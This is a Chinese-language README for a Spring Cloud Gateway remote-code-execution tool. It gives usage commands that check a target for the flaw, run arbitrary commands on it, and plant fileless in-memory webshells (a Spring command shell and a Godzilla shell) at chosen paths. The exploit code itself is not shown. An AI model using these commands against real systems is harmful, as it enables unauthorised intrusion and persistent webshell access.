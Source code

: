 # spring-gateway-rce

## 简介
spring cloud gateway rce 内存马辅助脚本，一个spring cmd马，一个哥斯拉，支持修改path，哥斯拉密钥随机

复现以及脚本编写参考：

https://www.cnblogs.com/sijidou/p/16616162.html		哥斯拉内存马

https://www.cnblogs.com/zpchcbd/p/17659322.html	  spring cmd内存马

## 工具使用
漏洞检测

```
python spring-gateway-rce.py -t check -u http://192.168.8.129:8080
```

不打内存马直接莽（不推荐，容易打崩环境）

```
python spring-gateway-rce.py -t force -o linux -u http://192.168.8.129:8080 -c "ip addr"
```

![image-20231203223345968](https://al0neme-staticfile.oss-cn-hangzhou.aliyuncs.com/static/202312032233057.png)

内存马

```
python spring-gateway-rce.py -t spring -u http://192.168.8.129:8080 -p "/springshell"

python spring-gateway-rce.py -t godzilla -u http://192.168.8.129:8080 -p "/godshell"
```

![image-20231203223706138](https://al0neme-staticfile.oss-cn-hangzhou.aliyuncs.com/static/202312032237164.png)

![image-20231203224108339](https://al0neme-staticfile.oss-cn-hangzhou.aliyuncs.com/static/202312032241363.png)

![image-20231203223748938](https://al0neme-staticfile.oss-cn-hangzhou.aliyuncs.com/static/202312032237955.png)
